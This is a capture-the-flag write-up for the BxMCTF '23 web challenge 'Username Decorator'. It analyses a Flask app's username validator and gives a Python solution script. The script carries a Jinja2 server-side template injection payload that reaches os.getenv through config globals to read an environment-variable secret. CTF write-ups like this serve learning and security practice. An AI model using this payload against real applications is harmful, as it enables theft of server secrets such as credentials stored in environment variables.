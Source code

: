 ```yaml
---
title: BxMCTF '23 - Username Decorator
date: Mon Jun  5 01:36:36 AM +04 2023
categories: [Writeup]
tags: [ctf,bxmctf2023,pwn]
---
```


## Description

Author: JW/Mani

My favorite social media platform, Prorope, has overhauled their username system and now supports prefixes and suffixes! Isn't that so cool?

For one, I know that I would really love to be  _the_  !! JW !!, so I made a website to preview these username changes.

Note: the flag is in an environment variable called  `FLAG`

[web3.zip](https://ctfmgci.jonathanw.dev/dl/bxmctf2023/web3.zip)

## Analysis 

```py
app.config['FLAG_LOCATION'] = 'os.getenv("FLAG")'
```

```py
def validate_username(username):
    return bool(re.fullmatch("[a-zA-Z0-9._\[\]\(\)\-=,]{2,}", username))
```
Validator only allows alphanumerical characters, dot, underscore, brackets, dash, equals sign, comma.

```py
if request.method == 'POST':
	prefix   = (request.form['prefix']   or '')[:2]
	username =  request.form['username'] or ''
	suffix   = (request.form['suffix']   or '')[:2]
```
If request type is post, then prefix, username and suffix can be set. Prefix and suffix can only be input's 2 characters, but username is not limited to length.

Since application is written in Python it's most likely is using Jinja as web template. From challenge description it looks like we can perform [Server Side Template Injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

## Solution 
```py
import requests
from bs4 import BeautifulSoup as BS

URL = 'http://<SERVER>:<PORT>/'
# URL = 'http://127.0.0.1:5000' # Emulate server to test locally

data = {
    'prefix': {% raw %}'{{'{% endraw %},
    'suffix': {% raw %}'}}'{% endraw %},
    'username': 'config.__class__.from_envvar.__globals__.__builtins__.__import__(request.args.a).getenv(request.args.b)'
}

params = { "a": "os", "b": "FLAG" }

resp = requests.post(URL, data=data, params=params)
html = BS(resp.text, 'html.parser')
print(html.prettify())
```